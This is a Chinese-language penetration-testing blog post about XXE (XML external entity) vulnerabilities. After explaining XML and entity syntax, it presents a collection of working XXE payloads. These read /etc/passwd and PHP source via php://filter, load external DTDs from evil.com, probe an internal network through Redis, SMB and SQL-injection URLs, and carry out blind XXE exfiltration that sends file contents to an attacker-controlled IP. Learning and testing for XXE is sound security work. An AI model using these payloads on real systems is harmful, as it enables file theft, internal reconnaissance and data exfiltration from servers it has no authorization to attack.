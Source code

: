 +++
date = "2017-12-09T23:02:22+08:00"
description = "XXE漏洞是针对使用XML交互的Web应用程序的攻击方法"
draft = false
tags = ["xml"]
title = "XXE漏洞"
topics = ["Pentest"]

+++

### 0x00 XXE
XXE漏洞是针对使用XML交互的Web应用程序的攻击方法

XML文件作为配置文件(spring、Struts2等)、文档结构说明文件(PDF、RSS等)、图片格式文件(SVG header)应用比较广泛

### 0x01 XML格式
```xml
<?xml version="1.0" encoding="utf-8"?>  <!--xml声明-->

<!--文档类型定义-->
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to       (#PCDATA)>
  <!ELEMENT from     (#PCDATA)>
  <!ELEMENT heading  (#PCDATA)>
  <!ELEMENT body     (#PCDATA)>
]>

<!--文档元素-->
<note>
<to>Tom</to>
<from>John</from>
<heading>Reminder</heading>
<body>Hi,I’am John</body>
</note>
```

### 0x02 内部声明与外部引用
```xml
<!--内部声明实体-->
<!ENTITY 实体名称 "实体的值">

<!--引用外部实体-->
<!ENTITY 实体名称 SYSTEM "URI">
```

### 0x03 XXE漏洞
* 外部引用时可能会出现漏洞，几种payload：

```xml
<?xml version="1.0"?>
<!DOCTYPE a [
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<test>&xxe;</test>
```
<br>
```xml
<?xml version="1.0"?>
<!DOCTYPE a [
  <!ENTITY % d SYSTEM "http://evil.com/evil.dtd" >
  %d;
]>
<test>&b;</test>

evil.dtd中的内容为：<!ENTITY b SYSTEM "file:///etc/passwd" >
```
<br>
```xml
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://evil.com/evil.dtd">
<test>&b;</test>

evil.dtd中的内容为：<!ENTITY b SYSTEM "file:///etc/passwd" >
```

* 简单绕过

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [
  <!ELEMENT methodname ANY >
  <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=index.php" >
]>
<methodcall>
  <methodname>&xxe;</methodname>
</methodcall>
```

* 扫描内网

```xml
<!ENTITY portscan SYSTEM 'http://192.168.2.22:6379/'>
<!ENTITY smb SYSTEM '\\192.168.2.22\C$'>
<!ENTITY sqli SYSTEM 'http://192.168.2.22/a.php?id=-1+union+select+1,2,3--'>
```

* Blind-XXE

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ENTITY % ttt SYSTEM "php://filter/convert.base64-encode/resource=/flag">
    <!ENTITY % remote SYSTEM "http://Your IP/evil.xml">
    %remote;   <!--引用remote来将外部文件evil.xml引入到解释上下文中-->
    %payload;   <!--执行%payload，这时会检测到send实体，然后在root节点中引用send，就可以成功实现数据转发-->
]>
<root>&send;</root>

<!--evil.xml内容：-->
<!ENTITY % payload "<!ENTITY % send SYSTEM 'http://Your IP/a.php?content=%ttt;'>">
```
<br>
```xml
<?xml version="1.0"?>  
<!DOCTYPE ANY[  
    <!ENTITY % file SYSTEM "file:///C:/1.txt">  
    <!ENTITY % remote SYSTEM "http://192.168.150.1/evil.xml">  
    %remote;  
    %all;  
    %send;  
]>

<!--evil.xml内容：-->
<!ENTITY % all "<!ENTITY % send SYSTEM 'http://192.168.150.1/1.php?file=%file;'>">
```

<br>
#### Reference(侵删)：
* [http://blog.csdn.net/u011721501/article/details/43775691](http://blog.csdn.net/u011721501/article/details/43775691)
* [https://www.waitalone.cn/xxe-attack.html](https://www.waitalone.cn/xxe-attack.html)
